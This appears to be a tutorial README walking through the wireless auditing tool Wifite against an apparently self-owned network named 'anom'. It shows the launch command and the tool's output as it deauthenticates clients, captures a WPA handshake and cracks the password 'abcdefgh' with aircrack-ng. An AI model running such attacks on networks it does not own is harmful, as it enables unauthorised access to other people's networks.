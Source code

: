 # Wifite

Wifite is a really neat tool for those who want faster pawning without
the need of running command one by one. Though there are some bugs that
might happen if you didn't have dependencies for it.

Outside of Kali linux, you might want to add other programs like
`wireshark`,`hxctools`,`cowpatty`,`aircrack-ng` for this script to
run properly.

Since this is a script, you might want to use this in Kali instead
in your normal Linux daily driver. To use Wifite you have to type
` sudo ./Wifite.py`, remember to use `sudo` since you need root
privilege to run this script, it's because some dependencies want
root user privilege to change your wifi to monitor mode.

This command will execute wifite to `anom` ESSID.

```
$ sudo ./Wifite.py -e anom
```

## Results

After you run wifite, you'll get result that will be broken down here.

Banner and option are mentioned here, since I use `-e` as an option, it'll
automatically use `anom` as target ESSID.

```
   .               .    
 .´  ·  .     .  ·  `.  wifite 2.2.5
 :  :  :  (¯)  :  :  :  automated wireless auditor
 `.  ·  ` /¯\ ´  ·  .´  https://github.com/derv82/wifite2
   `     /¯¯¯\     ´    

 [+] option: targeting ESSID anom
 [!] Conflicting processes: #####
 [!] If you have problems: kill -9 PID or re-run wifite with --kill)
```

As you might see above, there might be some conflicting PID that are running
in the background, you might need to specify `--kill` to run this script
again, otherwise, you can just follow through.

After changing to monitor mode, it'll then start using deauth attack to
get wpa handshake. Manually, you might be using `airodump-ng` in conjunction
with `aireplay-ng`. It'll then save your handshake information inside
`hs/handshake_anom_EE-F1-4B-89-27-D8_2020-12-03T10-58-09.cap`.

```
 [+] Using wlp1s0mon already in monitor mode

 [+] Scanning. Found 0 target(s), 0 client(s). Ctrl+C when ready
 [+] found target MA:C0:AD:DR:ES:S0 (anom)

 [+] (1/1) Starting attacks against MA:C0:AD:DR:ES:S0 (anom)

 [+] anom (67db) WPA Handshake capture: Discovered new client: MA:C0:AD:DR:ES:S0
 [+] anom (0db) WPA Handshake capture: Discovered new client: MA:C0:AD:DR:ES:S0
 [+] anom (76db) WPA Handshake capture: Captured handshake
 [+] saving copy of handshake to hs/handshake_anom_EE-F1-4B-89-27-D8_2020-12-03T10-58-09.cap saved
```

`airodump-ng` and `aireplay-ng` are used for capturing handshake and
saving that handshake into a file, after this, it'll then start
using `tshark`, `pyrit`, `cowpatty`, `aircrack` to then check if
the handshake captured are a valid handshake.

```
 [+] analysis of captured handshake file:
 [+]   tshark: .cap file contains a valid handshake for ee:f1:4b:89:27:d8
 [!]    pyrit: .cap file does not contain a valid handshake
 [!] cowpatty: .cap file does not contain a valid handshake
 [!] aircrack: .cap file does not contain a valid handshake
```

After cross-checking all handshakes contained in the file, it'll start
aircrack-ng to do password cracking, it'll take some time if your
password is good enough. Here I will use a really complicated password
`abcdefgh` a really strong and complicated password (please don't use
this kind of password, since it'll be cracked in no seconds.).

```
 [+] Cracking WPA Handshake: Running aircrack-ng with wordlist-top4800-probable.txt wordlist
 [+] Cracking WPA Handshake: 95.17% ETA: 0s @ 2588.2kps (current key: scofield)
 [+] Cracked WPA Handshake PSK: abcdefgh
```

*Jokes* aside, the result then will be generated in formats below.

```
 [+]   Access Point Name: anom
 [+]  Access Point BSSID: MA:C0:AD:DR:ES:S0
 [+]          Encryption: WPA
 [+]      Handshake File: hs/handshake_anom_EE-F1-4B-89-27-D8_2020-12-03T10-58-09.cap
 [+]      PSK (password): abcdefgh
 [+] saved crack result to cracked.txt (2 total)
 [+] Finished attacking 1 target(s), exiting
 ```
